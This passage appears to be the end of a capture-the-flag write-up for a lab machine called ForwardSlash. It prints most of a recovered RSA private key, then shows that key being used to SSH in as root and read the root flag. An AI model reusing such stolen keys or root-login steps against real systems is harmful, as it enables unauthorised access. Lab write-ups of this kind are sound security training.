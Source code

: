     V4gv6+cc787HojtuU7Ee66eWj0VSr0PXjFInzdSdmnd93oDZPzwF8QUnAoGBAPhg
    e1VaHG89E4YWNxbfr739t5qPuizPJY7fIBOv9Z0G+P5KCtHJA5uxpELrF3hQjJU8
    6Orz/0C+TxmlTGVOvkQWij4GC9rcOMaP03zXamQTSGNROM+S1I9UUoQBrwe2nQeh
    i2B/AlO4PrOHJtfSXIzsedmDNLoMqO5/n/xAqLAHAoGATnv8CBntt11JFYWvpSdq
    tT38SlWgjK77dEIC2/hb/J8RSItSkfbXrvu3dA5wAOGnqI2HDF5tr35JnR+s/JfW
    woUx/e7cnPO9FMyr6pbr5vlVf/nUBEde37nq3rZ9mlj3XiiW7G8i9thEAm471eEi
    /vpe2QfSkmk1XGdV/svbq/sCgYAZ6FZ1DLUylThYIDEW3bZDJxfjs2JEEkdko7mA
    1DXWb0fBno+KWmFZ+CmeIU+NaTmAx520BEd3xWIS1r8lQhVunLtGxPKvnZD+hToW
    J5IdZjWCxpIadMJfQPhqdJKBR3cRuLQFGLpxaSKBL3PJx1OID5KWMa1qSq/EUOOr
    OENgOQKBgD/mYgPSmbqpNZI0/B+6ua9kQJAH6JS44v+yFkHfNTW0M7UIjU7wkGQw
    ddMNjhpwVZ3//G6UhWSojUScQTERANt8R+J6dR0YfPzHnsDIoRc7IABQmxxygXDo
    ZoYDzlPAlwJmoPQXauRl1CgjlyHrVUTfS0AkQH2ZbqvK5/Metq8o
    -----END RSA PRIVATE KEY-----



### SSH

With this key, I can SSH as root into ForwardSlash:



    root@kali# ssh -i ~/keys/id_rsa_forwardslash_root root@10.10.10.183
    Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage

      System information as of Mon Apr  6 14:56:56 UTC 2020

      System load:  0.01               Processes:            182
      Usage of /:   30.9% of 19.56GB   Users logged in:      1
      Memory usage: 21%                IP address for ens33: 10.10.10.183
      Swap usage:   0%


     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch

    16 packages can be updated.
    0 updates are security updates.

    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


    Last login: Sun Apr  5 20:49:44 2020 from 10.10.14.24
    root@forwardslash:~#



And grab `root.txt`:



    root@forwardslash:~# cat root.txt 
    cc37ab30************************

